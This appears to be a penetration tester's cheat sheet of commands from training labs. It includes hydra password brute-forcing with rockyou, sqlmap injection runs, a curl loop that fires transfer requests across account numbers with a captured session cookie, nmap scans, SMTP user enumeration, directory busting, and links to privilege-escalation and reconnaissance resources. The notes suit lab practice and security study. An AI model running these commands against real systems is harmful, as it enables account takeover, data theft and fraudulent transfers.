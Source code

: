 ## Pentest

```sh
hydra -I -l 99 -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -s 5000 ${TARGET_IP} http-form-get "/:user=^USER^&pass=^PASS^:S=302"
hydra -I -l 100 -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt -s 5000 ${TARGET_IP} http-form-get "/:user=^USER^&pass=^PASS^:S=302"
```

```sh
sqlmap http://10.10.178.141:5000 --tamper=space2comment --level 3 --risk 3 --data 'account_number=101+&password=hello'
```

```sh
sqlmap http://10.10.178.141:5000 --cookie="session=eyJuYW1lIjoiVGVzdGVyIiwidXNlciI6MTEwfQ.Z1tB3g.jyoCFwdXj7uP7v6TVesQ7O3-zng" --tamper=space2comment --level 3 --risk 3 --data 'account_number=101&ammount=1'
```

```sh
send_req() {
  id="$1"
  curl -L -s 'http://10.10.178.141:5000/transfer' \
    -X POST \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0' \
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
    -H 'Accept-Language: en-US,en;q=0.5' \
    -H 'Accept-Encoding: gzip, deflate' \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H 'Origin: http://10.10.178.141:5000' \
    -H 'Connection: keep-alive' \
    -H 'Referer: http://10.10.178.141:5000/dashboard' \
    -H 'Cookie: session=eyJuYW1lIjoiVGVzdGVyIiwidXNlciI6MTEwfQ.Z1tB3g.jyoCFwdXj7uP7v6TVesQ7O3-zng' \
    -H 'Upgrade-Insecure-Requests: 1' \
    -H 'Priority: u=0, i' \
    --data-raw "account_number=${id}&amount=1" | grep Success
}
export -f send_req

array=$(seq 99 112)

parallel send_req ::: "${array[@]}"
```

## nmap report

```sh
sudo grc nmap -v --reason -T4 -sT -F -oG  ${TARGET_IP}
sudo grc nmap -v --reason -T4 -sC -sV -F --version-intensity 9 -p8080 -oG ${TARGET_IP}
```

## Whatweb

```txt
http://10.10.178.141:5000/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.4 Python/3.8.10], IP[10.10.178.141], Python[3.8.10], Werkzeug[3.0.4]
```

## TELNET scripting

```sh
#!/usr/bin/env bash

(
echo open 10.129.88.30 25
sleep 5
echo VRFY samuel
sleep 2
) | telnet
```

## Dir Enum

```sh
gobuster dir -u "http://jewel.uploadvulns.thm/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 60 -x .phar,.php.phtm
```

## Passive OS fingerprinting

- [satori](https://github.com/xnih/satori/)
- [p0f](https://lcamtuf.coredump.cx/p0f3/)

## Mac Ages

- [mac ages](https://github.com/hdm/mac-ages)

### links

- [cvss calculator](https://www.first.org/cvss/calculator/3.1)
- [cyberchef](127.0.0.1:8081)
- [abuse.ch](https://abuse.ch)
- [urlscan](https://urlscan.io)

### Linux Privilege Escalation

- [netbiosx's checklist](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [total oscp guide](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
- [payatu](https://payatu.com/blog/a-guide-to-linux-privilege-escalation/)

- [linpeas](https://raw.githubusercontent.com/Cerbersec/scripts/refs/heads/master/linux/linpeas.sh)

### Search Engines

- [shodan](https://www.shodan.io/)
- [DNSdumpster](https://dnsdumpster.com/)
- [threatintelligenceplatform](https://threatintelligenceplatform.com/)
- [viewdnsinfo](https://viewdns.info/)
- [google_hacking_database](https://www.exploit-db.com/google-hacking-database)
- [censys](https://search.censys.io/)
- [robtex](https://www.robtex.com/)
- [whois](https://whois.domaintools.com/)
- [alienvalut](https://otx.alienvault.com/)
- [threatminer](https://www.threatminer.org/)
- [hybrid-analysis](https://www.hybrid-analysis.com/)
- [wigle](https://wigle.net/)

### Dorking

- [google](https://support.google.com/websearch/answer/2466433)
- [duckduckgo](https://duckduckgo.com/duckduckgo-help-pages/results/syntax/)
- [bing](https://support.microsoft.com/en-us/topic/advanced-search-options-b92e25f1-0085-4271-bdf9-14aaea720930)
- [shodan](https://github.com/lothos612/shodan)
